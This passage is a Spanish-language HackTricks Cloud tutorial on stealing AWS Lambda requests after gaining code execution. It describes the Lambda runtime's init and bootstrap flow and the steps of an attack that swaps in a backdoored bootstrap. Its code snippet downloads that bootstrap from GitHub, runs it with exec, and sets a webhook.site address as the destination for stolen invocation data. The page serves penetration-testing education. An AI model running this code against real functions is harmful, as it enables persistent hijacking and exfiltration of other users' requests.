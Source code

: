 # AWS - Robar Solicitudes de Lambda

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Flujo de Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos endpoints interesantes:
* **`/2018-06-01/runtime/invocation/next`** – obtener el siguiente evento de invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del manejador para la invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que obtiene invocaciones del proceso init y llama al código del usuario para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía al init la **respuesta**

Ten en cuenta que bootstrap carga el código del usuario como un módulo, por lo que cualquier ejecución de código realizada por el código del usuario está ocurriendo en este proceso.

## Robando Solicitudes de Lambda

El objetivo de este ataque es hacer que el código del usuario ejecute un proceso malicioso **`bootstrap.py`** dentro del proceso **`bootstrap.py`** que maneja la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras que el bootstrap **legítimo** está **atrapado** ejecutando el malicioso, por lo que no pedirá solicitudes al proceso init.

Esta es una tarea simple de lograr ya que el código del usuario está siendo ejecutado por el legítimo proceso **`bootstrap.py`**. Así que el atacante podría:

* **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
* Se debe enviar una solicitud a **`/${invoke-id}/response`**
* El invoke-id se puede obtener de la pila del legítimo proceso **`bootstrap.py`** usando el módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [se propone aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como [se propone aquí](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Ejecutar un **`boostrap.py`** malicioso que manejará las siguientes invocaciones.
* Por razones de sigilo, es posible enviar los parámetros de invocación de lambda a un C2 controlado por el atacante y luego manejar las solicitudes como de costumbre.
* Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación lambda actual.

### Pasos del Ataque

1. Encontrar una vulnerabilidad **RCE**.
2. Generar un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Ejecutar** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para más información, consulta [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
